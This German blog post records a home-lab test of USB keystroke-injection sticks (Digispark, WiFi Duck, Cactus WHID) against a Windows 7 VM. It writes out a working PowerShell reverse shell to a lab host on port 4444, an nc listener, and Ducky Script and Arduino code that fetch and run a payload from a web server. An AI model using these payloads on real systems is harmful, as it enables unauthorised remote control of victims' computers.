Über die Jahre gibt und gab es jetzt verschiedene Iterationen von Rubber Duckys. Wenn ich mich recht entsinne, waren die ersten Rubber Duckys noch umprogrammierte USB Sticks. 
Bis dann Hak5 kam und einen [Stick](https://shop.hak5.org/products/usb-rubber-ducky-deluxe) rausbrachte, der nur für diesen Anwendungsfall erstellt worden war, und diesen dann stark vermarktete.
Danach kam die Generation von Sticks, die WLAN an Bord hatten. Und nun werden diese in USB Kabeln versteckt.

## Kurze Theorie 👨‍🏫
Die Grundidee ist es, ein USB-Gerät zu haben, das sich am Zielrechner als Tastatur ausgibt. Dieses macht dann Eingaben, die von Angreifern erstellt wurden.
Um diese Eingaben zu gestalten, gibt es eine eigene Scriptsprache, diese heißt Ducky Script. Die meisten dieser Geräte unterstützen diese dann.

Es gibt schon einige fertige Ducky Scripts im Internet, der bekannteste Anlaufpunkt ist das [Repository](https://github.com/hak5/usbrubberducky-payloads) von Hak5 selbst. Es gibt auch einen Online-[Generator](https://payloadstudio.com/login/). Aus meiner Erfahrung funktionieren diese nicht Out-of-the-box. Diese müssen für das jeweilige System angepasst werden.

### Reverse Shell 🐚
Mit den Sticks habe ich mal die Reverse Shell von [Hak5](https://shop.hak5.org/blogs/usb-rubber-ducky/the-3-second-reverse-shell-with-a-usb-rubber-ducky) ausprobiert.
Ich habe diesen Angriff auch unter einem aktuellen Windows 10 mit aktivem Defender getestet, doch dieser hat ihn sofort unterbunden.



Deswegen wurde ein Windows 7 als Zielsystem verwendet.

## Aufsetzen des Zielsystems 🎯
Nun ein Windows 7, zum Glück hatte ich noch ein paar alte ISOs auf der Festplatte. 😉

Ich hatte keine Lust, auf einem echten Rechner ein Windows 7 zu installieren, also hab ich meine Lab-Umgebung zu Rate gezogen.
Schnell eine kleine VM erstellt. Bin erstaunt, wie gut das mit 2GB RAM läuft. Was noch zu beachten ist: Man muss den USB-Port an die VM weiterleiten.
Aber dank Proxmox kein Problem, einfach unter: `Hardware` -> `Add` -> `USB Device`



## Aufsetzen des Angreifersystems 🏹
In diesem Fall braucht der Angreifer auch einen Rechner/Server, bei mir ist es jetzt ein LXC Container im selben Netzwerk, dieser würde auch im Normalfall im Internet erreichbar sein.

Auf dem Server läuft ein normaler Apache2 Webserver, auf diesem liegt ein Powershell Script.

Das sieht so aus:

$sm=(New-Object Net.Sockets.TCPClient("192.168.178.92",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}


Die Reverse Shell muss mit `nc -l -p 4444` gestartet werden, am besten unter der Verwendung von `tmux`.

Das Ducky Script, welches ich verwendet habe:


DELAY 1000
GUI r
DELAY 1000
STRING powershell "IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');"
ENTER


## Verschiedene Sticks
Es gibt einige Sticks, die ich für diese Angriffe nehmen kann, ich habe mal ein paar getestet. Es sind drei verschiedene, der Erste ist das Digispark Board.
Das Zweite ist ein DIY Projekt und nennt sich WiFi Duck. Und der Letzte ist der Cactus WHID Stick.

### Digispark Board



Ist ein sehr günstiger USB Stick, bestückt mit einem ATtiny85, dies ist ein sehr schwacher Mikrocontroller von Atmel (heute Microchip).
Der Stick ist sehr langsam mit seinen Tasteneingaben, zudem ist er sehr auffällig, aber ist ein guter und günstiger Einstieg in das Thema Keystroke Injection.
Hier ein gutes Video von [Null Byte](https://www.youtube.com/watch?v=A3cB9BDE6XM), wie dieser programmiert wird.

#### Programmieren mit Arduino IDE
Zunächst muss die Arduino IDE installiert werden. In den Voreinstellungen muss folgende URL ergänzt werden:

`http://digistump.com/package_digistump_index.json`

Dann im Boardverwalter die `Digistump AVR Boards` installieren. Leider kann hier kein Ducky Script verwendet werden, die Boards müssen in der Arduino IDE programmiert werden.
Aber auch hier findet man Beispiele im Netz, zum Beispiel auf [GitHub](https://github.com/CedArctic/DigiSpark-Scripts).

Hier das Ducky Script umgewandelt in einen Arduino Code:


#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*Stops the digispark from running the scipt again*/
  }
}


Fehler beim Uploaden:

micronucleus: library/micronucleus_lib.c:66: micronucleus_connect: Assertion `res >= 4' failed.
Aborted


Hierfür wieder die USB Rules anpassen mit: `sudo vim /etc/udev/rules.d/digispark.rules`

Und Folgendes eintragen:


SUBSYSTEM=="usb", ATTR{idVendor}=="16d0", ATTR{idProduct}=="0753", MODE="0660", GROUP="dialout"


Und natürlich hat es bei mir nicht funktioniert, weil in meinem Windows eine deutsche Tastatur ausgewählt ist.

Hab die [DigiKeyboardDe.h](https://raw.githubusercontent.com/adnan-alhomssi/DigistumpArduinoDe/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboardDe.h) in `/home/<user>/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/` eingefügt.

Und dann den Code angepasst:

#include "DigiKeyboardDe.h"
#include "DigiKeyboard.h"

void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboardDe.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  for (;;) {
    /*Stops the digispark from running the scipt again*/
  }
}


Leider sind sie sehr unzuverlässig. Und ich würde sie nicht für echte Angriffe/Aufgaben verwenden. Sie bieten jedoch einen einfachen Einstieg in Keystroke-Injection-Attacken.

### WiFi Duck



Ist eine von [Spacehuhn](https://github.com/spacehuhn) entwickelte Software, die mithilfe zweier Mikrocontroller funktioniert. Ein Atmega32u4, dieser gibt sich am Zielrechner als Tastatur aus und kommuniziert mit einem ESP8266, dieser ist ein Microcontroller mit WLAN an Bord. Dieser wird verwendet, um Eingaben auch remote zu ermöglichen.
Die Installation geht auch über die Arduino IDE und ist auf der [GitHub](https://github.com/SpacehuhnTech/WiFiDuck#atmega32u4-development-boards) Seite des Projektes sehr gut beschrieben.
Man kann diese Firmware auf verschiedenen Sticks bespielen. Oder eine Verbinderplatine anfertigen, mit der man dann Entwicklerboards der jeweiligen Chips verbinden kann.
Mir ist eine solche beim [Kongress](https://de.wikipedia.org/wiki/Chaos_Communication_Congress) zugespielt worden, danke dafür.

#### Webinterface
Durch den ESP8266 verfügt das Gerät über ein Webinterface, dieses ist durch ein WLAN zu erreichen, das der Stick dann aufspannt.
Hier können die Scripte hochgeladen und verwaltet werden:



Ich konnte das Duck Script von oben einfach verwenden, musste nur noch `LOCALE DE` ergänzen, da mein Rechner nur Eingaben von deutschen Tastaturen entgegennimmt.
Diese Änderung konnte ich bequem im Webinterface vornehmen, wo man Scripte speichern, editieren und gleich ausführen kann.



Des Weiteren können Einstellungen über das WLAN getroffen werden:



Das Webinterface von WiFi Duck hat mir besonders gut gefallen. Es ist auch sehr angenehm, damit Angriffe zu testen. Nachteil in meinem Setup ist, dass das Gerät sehr auffällig ist.
Ich denke, ein [Malduino](https://maltronics.com/collections/malduinos/products/malduino-w) mit WiFi Duck ist eines der besten Werkzeuge für solche Angriffe. Was mir auch noch positiv aufgefallen ist, dass die Software auf GitHub immer noch weiter gepflegt wird.

### Cactus WHID



Der [Cactus WHID](https://github.com/whid-injector/WHID) ist ein USB Stick, ähnlich wie beim WiFi Duck setzt er auf einen Atmega32u4, der als falsche Tastatur verwendet wird. Es wird auch ein WLAN mit einem ESP-12S aufgespannt, dieser Chip ist, soweit ich weiß, fast gleich zum ESP8266.
Er kommt jedoch mit einer eigenen Firmware, die ich mir auch mal anschauen wollte. Die Firmware wird auch über die Arduino IDE gebaut und kann damit geflasht werden.
Falls die Firmware mal neu aufgespielt werden muss, muss man den Atmega mithilfe eines Magneten wieder zurücksetzen. Meiner Erfahrung nach wird dieser Vorgang besser von Windows unterstützt. Mein Linux hatte den Stick immer nur kurzzeitig erkannt, was nicht reichte, um ihn neu zu bespielen.

#### Webinterface
Das Webinterface ist sehr viel schlichter als das vom WiFi Duck.



Man kann live Tastendrücke über das Web senden:



Man kann Payloads hochladen sowie hochgeladene auswählen und starten.
Es gibt auch einen Editor, in dem man seine Scripte schreiben kann.
Leider funktioniert bei mir die Ausführung nicht.

Es gibt einen Duckuino, dieser funktioniert bei mir viel besser.



Leider müssen die verschiedenen [Sprachen](https://github.com/whid-injector/WHID/wiki/Keyboards-Layout) beim Erstellen der Firmware hineinkompiliert werden. Das macht den Stick weniger flexibel.
Das Webinterface ist auch nicht so gut wie das vom WiFi Duck. Der einzige Vorteil ist, dass der Stick selbst bei einem echten Angriff unauffälliger ist.

Bei Fragen und Anmerkungen gerne melden per Mail, LinkedIn oder GitHub Issue.